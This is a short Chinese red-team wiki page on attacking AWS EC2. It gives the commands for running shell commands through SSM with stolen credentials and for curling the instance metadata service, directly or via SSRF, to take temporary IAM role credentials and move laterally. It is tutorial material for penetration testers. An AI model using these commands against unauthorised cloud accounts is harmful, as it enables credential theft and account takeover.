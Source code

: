 # aws-cli-command
利用 aws cli 执行命令
当目标实例被 AWS Systems Manager 代理后，除了在控制台可以执行命令外，拿到凭证后使用 AWS 命令行也可以在 EC2 上执行命令。

列出目标实例 ID

aws ec2 describe-instances --filters "Name=instance-type,Values=running" --query "Reservations[].Instances[].InstanceId"
在对应的实例上执行命令，注意将 instance-ID 改成自己实例的 ID

aws ssm send-command \
    --instance-ids "instance-ID" \
    --document-name "AWS-RunShellScript" \
    --parameters commands=ifconfig \
    --output text
获得执行命令的结果，注意将 $sh-command-id 改成自己的 Command ID

aws ssm list-command-invocations \
    --command-id $sh-command-id \
    --details
  
  
元数据
元数据服务是一种提供查询运行中的实例内元数据的服务，当实例向元数据服务发起请求时，该请求不会通过网络传输，如果获得了目标 EC2 权限或者目标 EC2 存在 SSRF 漏洞，就可以获得到实例的元数据。

在云场景下可以通过元数据进行临时凭证和其他信息的收集，在 AWS 下的元数据地址为：http://169.254.169.254/latest/meta-data/，直接 curl 请求该地址即可。

通过元数据，攻击者除了可以获得 EC2 上的一些属性信息之外，有时还可以获得与该实例绑定角色的临时凭证，并通过该临时凭证获得云服务器的控制台权限，进而横向到其他机器。

通过访问元数据的 /iam/security-credentials/<rolename> 路径可以获得目标的临时凭证，进而接管目标服务器控制台账号权限，前提是目标需要配置 IAM 角色才行，不然访问会 404

curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ -w '\n'
获取rolename
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rolename> -w '\n'

通过元数据获得目标的临时凭证后，就可以接管目标账号权限了，这里介绍一些对于 RT 而言价值相对较高的元数据：

mac    实例 MAC 地址
hostname    实例主机名
iam/info    获取角色名称
local-ipv4    实例本地 IP
public-ipv4    实例公网 IP
instance-id    实例 ID
public-hostname    接口的公有 DNS (IPv4)
placement/region    实例的 AWS 区域
public-keys/0/openssh-key    公有密钥
/iam/security-credentials/<rolename>    获取角色的临时凭证
  
  来源：https://wiki.teamssix.com/CloudService/EC2/ec2-exec-command.html
